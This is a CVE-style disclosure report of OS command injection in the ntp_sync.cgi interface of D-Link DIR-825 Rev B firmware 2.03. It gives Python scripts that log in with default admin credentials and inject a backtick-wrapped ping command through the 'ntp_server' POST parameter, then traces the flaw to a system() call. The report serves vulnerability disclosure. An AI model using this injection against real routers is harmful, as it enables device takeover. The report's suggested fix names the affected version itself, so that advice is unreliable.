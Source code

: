 

# CVE Report - Command Injection Vulnerability in DIR_825_REVB_FIRMWARE_2.03 Routers 

## Vulnerability Title

Command Injection Vulnerability in DIR_825_REVB_FIRMWARE_2.03 Router. 

## Vulnerability Description

DLINK DIR_825_REVB_FIRMWARE_2.03 devices have an OS command injection vulnerability
in the CGl interface "ntp_sync.cgi",which allows remote attackers to execute arbitrary
commands via parameter "ntp_server" passed to the "ntp_sync.cgi" binary
through a POST request.

## Reproduction Steps

1. Log in to the router.

```python
import requests

device_web_ip = '172.17.0.29'

headers = {

  'Host': device_web_ip,

  'Connection': 'keep-alive',

  'Content-Length': '1000',

  'Cache-Control': 'max-age=0',

  'Upgrade-Insecure-Requests': '1',

  'Origin': f'http://{device_web_ip}',

  'Content-Type': 'application/x-www-form-urlencoded',

  'Referer': f'http://{device_web_ip}',

  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',

  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',

  'Accept-Encoding': 'gzip, deflate',

  'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'

}

login_params = login_params = {

  'html_response_page': 'logout_fail.asp',

  'login_name': 'YWRtaW4A',

  'login_n': 'admin',

  'login_pass': 'YWRtaW4A',

  'login': 'Log In'

}

login_url = 'http://{}/login.cgi'.format(device_web_ip)

r = requests.post(url=login_url, data=login_params, headers=headers, timeout=0.2)

if r is None or r.status_code != 200:

 print('Login wrong, please retry!')

 exit()

print(r.text)
```



2. Use the following Python code to test the vulnerability:

```py
import requests
import pickle 
import time

device_web_ip = "172.17.0.29"
base_url = "http://172.17.0.29/"


headers = {
    'Host': device_web_ip,
    'Connection': 'keep-alive',
    'Content-Length': '1000',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': f'http://{device_web_ip}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Referer': f'http://{device_web_ip}',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'
}

target_para = {'ntp_server':'`ping -c 2 172.17.0.1`'}
r = requests.post(url=base_url+'ntp_sync.cgi', data=target_para, headers=headers)
print(r.text)
```



## Cause Analysis

The get_cgi function accepts external data. The user affects v4 by setting the ntp_server value. After sprintf splicing, it enters v7 and finally enters system execution, resulting in a command execution vulnerability.

![image-20241229181704483](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20241229181704483.png)



## Suggested Fix

It is recommended to update to the version of DIR_825_REVB_FIRMWARE_2.03 router to fix this vulnerability. 

